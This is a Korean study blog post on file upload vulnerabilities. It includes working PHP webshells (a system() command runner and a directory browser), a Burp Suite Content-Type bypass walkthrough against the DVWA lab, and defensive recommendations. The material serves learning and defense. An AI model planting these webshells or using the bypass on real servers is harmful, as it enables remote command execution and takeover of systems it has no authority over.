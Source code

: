 ```yaml
---
layout: post
title: "파일 업로드 취약점 공부"
date: 2025-09-23 17:00:00 +0900
categories: Study 웹 해킹
---
```


### 1. 개요

파일 업로드 취약점은 서버 측에서 업로드되는 파일의 확장자나 내용을 제대로 검증하지 않을 때 발생한다. 공격자는 이 취약점을 이용해 악의적인 스크립트 파일(웹쉘)을 서버에 업로드하여 원격에서 시스템 명령어를 실행(RCE)하고 최종적으로 서버의 제어권을 획득할 수 있다.

이 공격은 [A04: 안전하지 않은 설계](https://hamap0.github.io/projects/owasp-top-10/2025/08/28/A04_Insecure-Design.html) 프로젝트 보고서에서 다룬 핵심 주제이다.

---

### 2. 주요 우회 기법

단순히 `.php` 파일을 업로드하는 것은 대부분의 필터링에 막히므로 이를 우회하는 기법이 필요하다.

*   **확장자 필터링 우회:**
    서버가 특정 확장자를 블랙리스트 방식으로 필터링할 때 사용된다. `.php` 대신 `.phtml` · `.php3` · `.inc` 등 웹 서버가 PHP로 해석할 수 있는 다른 확장자를 시도하거나 `shell.pHp`처럼 대소문자를 혼용하여 우회를 시도할 수 있다.

*   **MIME 타입 검증 우회:**
    서버가 파일 확장자 대신 HTTP 요청 헤더의 `Content-Type`을 기준으로 파일 종류를 판단할 때 사용된다. 이 값은 클라이언트가 보내는 정보이므로 Burp Suite와 같은 프록시 툴을 이용해 `Content-Type: application/x-php`를 `Content-Type: image/jpeg`와 같이 정상적인 이미지 파일처럼 조작하여 필터링을 우회할 수 있다.


---

### 3. 웹쉘 (Webshell)

웹쉘은 웹 서버를 통해 시스템 명령어를 실행할 수 있도록 만들어진 스크립트 파일이다.

#### **기본 웹쉘**
가장 단순한 형태의 웹쉘은 URL 파라미터를 통해 전달받은 명령어를 그대로 실행하고 결과를 출력한다. `cmd`라는 파라미터로 명령어를 전달받는 예시이다.
```php
<?php
  if(isset($_REQUEST['cmd'])){
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
  }
?>
```

#### **개선된 웹쉘 (간이 파일 브라우저)**
조금 더 발전된 형태의 웹쉘은 단순히 명령어를 실행하는 것을 넘어 서버의 파일 시스템을 탐색하는 기능을 포함할 수 있다. 아래 코드는 `path` 파라미터로 전달된 경로의 파일과 디렉터리 목록을 보여주는 간단한 파일 브라우저 역할을 한다.
```php
<?php
  $path = isset($_GET['path']) ? $_GET['path'] : '.';
  $files = scandir($path);
  
  foreach($files as $file) {
    // 현재 디렉터리(.)와 상위 디렉터리(..) 링크 생성
    if ($file == '.') {
      echo "<a href='?path={$path}'>.</a><br>";
    } elseif ($file == '..') {
      $parent_path = dirname($path);
      echo "<a href='?path={$parent_path}'>..</a><br>";
    } else {
      echo $file . "<br>";
    }
  }
?>
```

---

### 4. 사용 예시: Burp Suite를 이용한 MIME 타입 우회

이 예시는 서버가 `Content-Type` 헤더를 신뢰할 때 발생하는 파일 업로드 취약점을 공격하는 과정을 보여준다.

#### **1. 요청 가로채기 (Intercept)**
1.  `shell.php` 파일을 준비하고 Burp Suite와 브라우저 프록시를 설정한다.
2.  Burp Suite의 `Proxy` > `Intercept` 탭을 `On` 상태로 설정한다.
3.  DVWA의 `File Upload` 페이지에서 `shell.php` 파일을 선택하고 `Upload` 버튼을 클릭하여 요청을 가로챈다.

#### **2. Content-Type 헤더 변조**
1.  가로챈 `POST` 요청 패킷에서 `Content-Type` 헤더를 확인한다. 초기 값은 `application/x-php`로 설정되어 있다.
    ```http
    ...
    Content-Disposition: form-data; name="uploaded"; filename="shell.php"
    Content-Type: application/x-php

    <?php system($_GET['cmd']); ?>
    ...
    ```
2.  `Content-Type: application/x-php` 라인을 `Content-Type: image/jpeg`로 수정한다.
3.  `Forward` 버튼을 눌러 변조된 요청을 서버로 전송한다.

#### **3. 업로드 확인 및 웹쉘 실행**
1.  서버의 필터링 로직이 `Content-Type`만 검증했다면, 파일은 정상적으로 업로드되고 저장 경로(예: `../../hackable/uploads/shell.php`)가 출력된다.
2.  브라우저에서 해당 경로에 `?cmd=whoami` 파라미터를 추가하여 접속한다.
3.  화면에 `www-data`가 출력되면 웹쉘 업로드 및 명령어 실행에 성공한 것이다.

---

### 5. 방어 방안

*   **확장자 화이트리스트:** `.php`, `.jsp` 등 위험한 확장자를 금지하는 블랙리스트 방식 대신 `.jpg` · `.png` · `.gif` 와 같이 허용된 확장자만 업로드할 수 있도록 화이트리스트 방식을 사용해야 한다.
*   **파일 내용 검증:** 확장자나 MIME 타입은 조작될 수 있으므로 `getimagesize()`와 같은 함수를 이용해 파일의 내용이 실제 이미지 데이터인지 검증해야 한다.
*   **업로드 경로 제어:** 업로드된 파일이 저장되는 디렉터리는 웹에서 직접 접근할 수 없는 경로(Web Root 외부)에 위치시키거나 만약 웹에서 접근해야 한다면 해당 디렉터리의 스크립트 실행 권한을 제거해야 한다.

<hr class="short-rule">





### 시각 자료(이미지) 제작을 위한 스크립트

#### **기본 웹쉘 실행 이미지 제작**

1.  (준비) 위 `3. 웹쉘` 섹션의 '기본 웹쉘' 코드를 `shell.php` 파일로 저장합니다.
2.  DVWA의 `File Upload` 페이지를 통해 `shell.php` 파일을 업로드합니다.
3.  업로드가 성공하면 파일이 저장된 경로(예: `/hackable/uploads/shell.php`)가 화면에 표시됩니다.
4.  웹 브라우저에서 해당 경로로 접근하되, URL 끝에 실행할 명령어를 쿼리 스트링으로 추가합니다.
    *   **URL 예시:** `http://192.9.200.11/hackable/uploads/shell.php?cmd=whoami`
5.  브라우저 화면에 명령어의 결과인 `www-data`가 출력될 것입니다.
6.  이 상태의 브라우저 화면 전체를 스크린샷으로 찍습니다.
7.  이미지 편집 프로그램을 사용하여 스크린샷을 엽니다.
8.  두 부분에 하이라이트를 적용하여 원인과 결과를 명확히 보여줍니다.
    *   **원인:** 주소창의 `?cmd=whoami` 부분
    *   **결과:** 페이지 본문에 출력된 `www-data`
9.  수정된 이미지를 저장하여 게시글에 삽입합니다.

#### **MIME 타입 우회 공격 이미지 제작**

1.  **Burp Suite 요청 변조 화면 캡처:**
    *   `4. 사용 예시`의 2단계 과정에서, `Content-Type` 헤더를 `image/jpeg`로 수정한 Burp Suite의 `Proxy` 탭 화면을 스크린샷으로 찍어 **`MIME_Bypass_Request.png`**로 저장한다.
2.  **웹쉘 실행 결과 화면 캡처:**
    *   3단계 과정에서, `whoami` 명령어의 결과(`www-data`)가 출력된 브라우저 화면을 스크린샷으로 찍어 **`MIME_Bypass_Result.png`**로 저장한다.
3.  **최종 이미지 편집:**
    *   이미지 편집 프로그램에서 `MIME_Bypass_Request.png`(왼쪽)와 `MIME_Bypass_Result.png`(오른쪽)를 나란히 배치한다.
    *   왼쪽 이미지에서는 `Content-Type: image/jpeg`로 수정된 라인에 하이라이트를 적용한다.
    *   오른쪽 이미지에서는 주소창의 `...shell.php?cmd=whoami` 부분과 본문의 `www-data` 출력 결과에 하이라이트를 적용한다.
    *   두 이미지 사이에 화살표를 추가하여 왼쪽의 요청 변조가 오른쪽의 RCE 성공으로 이어졌음을 시각적으로 연결한다.
    *   수정된 이미지를 게시글에 삽입한다.